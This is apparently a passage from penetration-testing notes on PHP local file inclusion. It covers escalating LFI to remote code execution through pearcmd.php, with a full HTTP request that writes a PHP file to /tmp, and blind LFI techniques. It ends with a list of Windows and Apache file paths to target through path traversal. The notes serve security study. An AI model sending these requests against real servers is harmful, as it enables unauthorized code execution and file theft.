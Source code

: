 ### LFI2RCE using `pearcmd.php` without file upload [^pearcmd]

[^pearcmd]: [Clever use of `pearcmd.php`](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)

Sometimes LFI can still be upgraded to RCE even if logs are not accessible and file upload is not allowed, thanks to `pearcmd.php`. 

>[!info]
>pecl is a command line tool used in PHP to manage extensions, and pear is a class library that pecl depends on. In 7.3 and before, pecl/pear is installed by default; in 7.4 and after, we need to specify it when compiling PHP to `--with-pear`install it. However, in any version of Docker image, pcel/pear will be installed by default, and the installation path is `/usr/local/lib/php`.

Assuming `file` is the parameter vulnerable to LFI, we can generate a valid PHP file to be included later using the method below:
```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

By sending this packet, the target will write a file `/tmp/hello.php`containing `<?=phpinfo()?>` [^video]

[^video]: [Website Vulnerabilities to Fully Hacked Server](https://www.youtube.com/watch?v=yq2rq50IMSQ&ab_channel=JohnHammond)

### Blind LFI

Blind lfi are vulnerabilities that occur when you have an arbitrary file read primitive, but the contents of that file are not shown in the output.

```php
# Blind file read
file_get_contents($_REQUEST['file']);
getimagesize($_GET['file']);
```

These vulnerabilities however can be exploited using some specific tools and techniques:
- [Charles Fol - Introducing Lightyear, a New Way to Dump PHP Files](../../Readwise/Articles/Charles%20Fol%20-%20Introducing%20Lightyear,%20a%20New%20Way%20to%20Dump%20PHP%20Files.md)
- [php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit) [^2]

---

## Common directories for Path Traversal

Windows:

```
C:\boot.ini
c:\windows\system32\drivers\etc\hosts
C:\WINDOWS\system32\win.ini
C:\Windows\system.ini

C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
```

[^1]: https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d
[^2]: [PHP FIlter Chains: File Read From Error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle); www.synacktiv.com